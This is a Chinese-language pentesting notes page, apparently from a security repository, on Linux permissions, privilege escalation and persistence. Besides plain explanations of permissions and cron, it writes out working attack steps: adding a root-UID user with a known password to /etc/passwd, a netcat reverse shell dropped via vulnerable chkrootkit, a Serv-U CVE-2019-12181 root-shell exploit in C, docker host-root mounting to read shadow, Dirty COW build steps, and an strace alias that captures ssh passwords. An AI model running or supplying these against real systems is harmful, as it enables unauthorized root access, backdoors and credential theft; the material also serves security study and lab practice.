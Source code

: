 持久化 - Linux
========================================

什么是权限
----------------------------------------
在Linux 系统中， ``ls -al`` 即可查看列出文件所属的权限。这里我用kali系统来演示。

::

	……
	drwxr-xr-x  2 kali kali    4096 Jan 27 12:52 Downloads
	-rw-r--r--  1 root root     903 Jun 14 11:33 exp.html
	-rw-r--r--  1 root root  153600 May  5 09:42 flag
	lrwxrwxrwx  1 kali kali      28 May 14 08:28 flagg -> /proc/self/cwd/flag/flag.jpg
	-rw-r--r--  1 kali kali     188 May 14 08:29 flagg.zip
	-rw-r--r--  1 root root 1807342 Apr 20 06:52 get-pip.py
	drwx------  3 kali kali    4096 Jun 18 21:35 .gnupg
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt
	-rw-r--r--  1 root root   12396 Jun 11 00:13 hydra.restore
	-rw-------  1 kali kali    5202 Jun 18 21:35 .ICEauthority
	-rw-r--r--  1 root root    2046 Jun 10 22:58 jim_pass.txt
	-rwsr-xr-x  1 root root      63736 Jul 27  2018  passwd
	……

::

	例如：
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt

- 第一位
	| ``-`` :代表普通文件
	| ``d`` :代表目录
	| ``l`` :代表软链接
	| ``b`` :代表块文件
	| ``c`` :代表字符设备
- 第二及后面几位,分别三个为一组
	| ``rw-r--r--`` 代表文件所属的权限,r:文件可读。w:文件可修改。-:表示暂时没有其他权限。x:表示可执行
	| ``rw-`` 表示文件所拥有者的权限
	| ``r--`` 表示文件所在组的用户的权限
	| ``r--`` 表示其他组的用户的权限。
	| ``s`` s代表着二进制文件具有SUID权限(假如属主没有执行权限，那么显示的是大S)
- 第二组数据 ``1`` 
	| 如果文件类型为目录，表示目录下的字目录个数
	| 如果文件类型是普通文件，这个数据就表示这个文件的硬链接个数
- 第三组数据 ``root`` ,表示该文件所有者为root用户
- 第四组数据 ``root`` ,表示该文件所在组为root组
- 第五组数据 ``56`` ,表示文件的大小为多少字节。如果为一个目录，则为 ``4096`` 。
- 第六组数据表示最后一次修改时间
- 第七组数据表示文件名称

相关指令
----------------------------------------
- sudo
    - -V 显示版本编号
    - -h 会显示版本编号及指令的使用方式说明
    - -l 显示出自己（执行 sudo 的使用者）的权限
    - -v 因为 sudo 在第一次执行时或是在 N 分钟内没有执行（N 预设为五）会问密码，这个参数是重新做一次确认，如果超过 N 分钟，也会问密码
    - -k 将会强迫使用者在下一次执行 sudo 时问密码（不论有没有超过 N 分钟）
    - -b 将要执行的指令放在背景执行
    - -p prompt 可以更改问密码的提示语，其中 %u 会代换为使用者的帐号名称， %h 会显示主机名称
    - -u username/#uid 不加此参数，代表要以 root 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）
    - -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
    - -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
    - command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令
	
	::
	
		# sudo -u userb ls -l
		$ sudo -u uggc vi ~www/index.html
		
- su
	- 语法：su [-fmp] [-c command] [-s shell] [--help] [--version] [-] [USER [ARG]] 
	- -f 或--fast不必读启动档（如 csh.cshrc 等），仅用于 csh 或 tcsh
	- -m -p 或 --preserve-environment 执行 su 时不改变环境变数
	- -c command 或 --command=command 变更为帐号为 USER 的使用者并执行指令（command）后再变回原来使用者
	- -s shell 或 --shell=shell 指定要执行的 shell （bash csh tcsh 等），预设值为 /etc/passwd 内的该使用者（USER） shell
	- --help 显示说明文件
	- --version 显示版本资讯
	- --l或--login 这个参数加了之后，就好像是重新 login 为该使用者一样，大部份环境变数（HOME SHELL USER等等）都是以该使用者（USER）为主，并且工作目录也会改变，如果没有指定 USER ，内定是 root
	- USER欲变更的使用者帐号
	- ARG传入新的shell参数
	
	::
	
		su -c ls root

权限提升
----------------------------------------
- linux exploit suggester（kernel<3.4.4）
	+ ``https://github.com/mzet-/linux-exploit-suggester``
	+ ``https://github.com/InteliSecureLabs/Linux_Exploit_Suggester``
- 明文root密码/密码复用
- sudo提权
	::
	
		普通用户一般是无法运行root所有者的命令的，运用sudo可以使普通用户使用root用户的命令。
		但是在一些场景下，管理员为了平常运营方便给sudoer文件配置不当，从而导致权限提升的问题产生。 
		vim /etc/sudoers
		添加：test ALL=(ALL:ALL) NOPASSWD:ALL #test为我们的用户 
		
- 可写入的/etc/passwd文件提权
	- 查询写入权限：ls -al /etc/passwd
	- 写入：echo 'Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash' >> /etc/passwd
	- 密码为：Password@973
	- su Tom
	- mkpasswd -m des生成用户密码。
- 脏牛漏洞本地提权
	- 内核版本低于列表里的版本(>=2.6.22)
		::
		
			Centos7 /RHEL7    3.10.0-327.36.3.el7
			Cetnos6/RHEL6     2.6.32-642.6.2.el6
			Ubuntu 16.10         4.8.0-26.28
			Ubuntu 16.04         4.4.0-45.66
			Ubuntu 14.04         3.13.0-100.147
			Debian 8                3.16.36-1+deb8u2
			Debian 7                3.2.82-1
		
	- 编译
		::
		
			git clone https://github.com/gbonacini/CVE-2016-5195.git
			sudo apt-get install g++
			make
		
- 内核漏洞利用
	- 搜索特定系统和内核版本利用漏洞
		- searchsploit linux kernel 3.2 
		- searchsploit centos 7 kernel 3.10
	- 搜索漏洞利用文件路径
		- searchsploit -p 37951.py
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
	::
	
	
		功用:用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。
		作用：只作用于二进制文件中。
		1、只作用在二进制程序文件中（如作用在普通文件中没有任何意义）。
		2、在默认情况下，用户发起一个进程，该进程的属主是发起者，而并非是文件的属主，此时进程是以发起者的身份去运行。
		3、如果给二进制程序文件添加了SUID权限后，用户发起一个进程，该进程的属主为程序文件所属的属主，而并非是发起者。
	
	- ``find / -perm -4000 -ls``
	- ``find / -perm -u=s -type f 2>/dev/null``
	- ``find / -user root -perm -4000 -print 2>/dev/null``
	- ``find / -user root -perm -4000 -exec ls -ldb {} \;``
	- ``常用的提权文件：Nmap,Vim,find,Bash,More,Less,Nano,cp,netcat``
- 利用可用的root权限
    - ``sudo -l``
	::
	
	
		[root@localhost ~]# su - tom    ##切换用户
		[tom@localhost ~]$ sudo -l    ##查看此用户拥有的特殊权限
		We trust you have received the usual lecture from the local System
		Administrator. It usually boils down to these three things:
			#1) Respect the privacy of others.
			#2) Think before you type.
			#3) With great power comes great responsibility.
		[sudo] password for tom:     ##这里需要验证密码，以保证是用户本人执行操作
		Matching Defaults entries for tom on this host:
			requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
			INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
			env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
			LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
			_XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
		User tom may run the following commands on this host:
			(root) /usr/sbin/useradd    ##可以以root身份，使用useradd命令
			
		[tom@localhost ~]$ sudo /usr/sbin/useradd test1    ##添加用户test1
		[tom@localhost ~]$ tail -1 /etc/passwd
		test1:x:501:501::/home/test1:/bin/bash        ##添加成功
- crontab计划任务
	- 查看计划任务
		::
		
			cat /etc/crontab
			SHELL=/bin/sh
			PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

			# Example of job definition:
			# .---------------- minute (0 - 59)
			# |  .------------- hour (0 - 23)
			# |  |  .---------- day of month (1 - 31)
			# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
			# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
			# |  |  |  |  |
			# *  *  *  *  * user-name command to be executed
			17 *  * * *     root    cd / && run-parts --report /etc/cron.hourly
			25 6  * * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
			47 6  * * 7     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
			52 6  1 * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
			
			四种标识符含义：
			，	间隔多久
			-	连续多久
			/	每隔多久
			*	所有时间
			
			实例1：每月1、10、22日的4:45重启network服务
			45 4 1,10,22 * * /usr/bin/systemctl restart network
			实例2：每周六、周日的1:10重启network服务
			10 1 * * 6,7 /usr/bin/systemctl restart network
			实例3：每天18:00至23:00之间每隔30分钟重启network服务
			*/30 18-23 * * * /usr/bin/systemctl restart network
			实例4：每隔两天的上午8点到11点的第3和第15分钟执行一次重启
			3,15 8-11 */2 * * /usr/sbin/reboot
			实例5：每周日凌晨2点30分，运行cp命令对/etc/fstab文件进行备份，存储位置为/backup/fstab-YYYY-MM-DD-hh-mm-ss；
			30 2 * * 7 /usr/bin/cp /etc/fstab /tmp/fstab-`date “+\%F_\%T”`
			实例6：一月一号的4点重启smb
			0 4 1 1 * /usr/bin/systemctl restart smb   #4点钟只执行一次命令，正确答案;
			* 4 1 1 * /usr/bin/systemctl restart smb   #四点到五点执行了60次命令，错误答案：
			实例7：晚上11点到早上7点之间，每隔一小时重启smb
			0 23-0/1,1-7/1 * * * /usr/bin/systemctl restart smb
			0 23,0,1,2,3,4,5,6,7  * * * /usr/bin/systemctl restart smb
			实例8：每一小时重启smb
			0 * * * * /usr/bin/systemctl restart smb


- docker用户组提权
	::
	
		id
		uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
		#根据上面的id命令执行的结果，发现selena是docker组的，于是使用docker提权
		
    - docker images命令查看已经存在的镜像,没有的话就pull一个
		- docker pull alpine
    - 挂载宿主机目录到docker镜像内	 
	 ::
	 
		# docker run -v /:/mnt  -it alpine
		# docker run -v /etc/:/mnt -it alpinecd /mntcat shadow
		# docker run -it -v /宿主机目录:/容器目录 镜像名 /bin/bash
		-i: 以交互模式运行容器，通常与 -t 同时使用；
		-t: 为容器重新分配一个伪输入终端，通常与 -i 同时使用；
		
	- 也可以在宿主机/etc/passwd中添加特权用户
- 第三方组件提权
	- chkrootkit(<=0.49)
		- msf:unix/local/chkrootkit
		- 写入/tmp/update
		
		::
		
			用一个普通用户在/tmp文件夹下新建一个可执行文件update，然后运行带漏洞的chkrootkit，
			那么这个文件会被以root的身份执行。
			运行chkrootkit
			方法一：searchsploit -p 33899
			echo "/usr/bin/nc -e /bin/sh 192.168.43.154 4444" > /tmp/update
			chmod +777 /tmp/update
			方法二：echo 'echo "root:123456" | sudo chpasswd' > /tmp/update
			chmod 777 /tmp/update
			su - root
			
	- tmux
		+ 运行pspy64发现tmux以root权限运行
			|tmux2|
		+ tmux进程
			|tmux1|
		+ 提权
			::
			
				export TERM=xterm
				tmux -S /opt/.tmux-0/sockets/default attach
				
			|tmux3|	
		
- 其它
	- https://github.com/SecWiki/linux-kernel-exploits
	- Serv-U提权
		::
		
			Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)
			CVE编号为CVE-2019-12181
			
			#include <stdio.h>
			#include <unistd.h>
			#include <errno.h>

			int main()
			{       
				char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
				int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
				// if execv is successful, we won't reach here
				printf("ret val: %d errno: %d\n", ret_val, errno);
				return errno;
			}
			
持久化
----------------------------------------
- 反弹shell
- suid shell
- icmp后门
- sshd wrapper
- sshd软链接后门
- port knocking
- pam后门
- webshell
- rootkit
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
	
.. |tmux1| image:: ../images/tmux1.png
.. |tmux2| image:: ../images/tmux2.png
.. |tmux3| image:: ../images/tmux3.png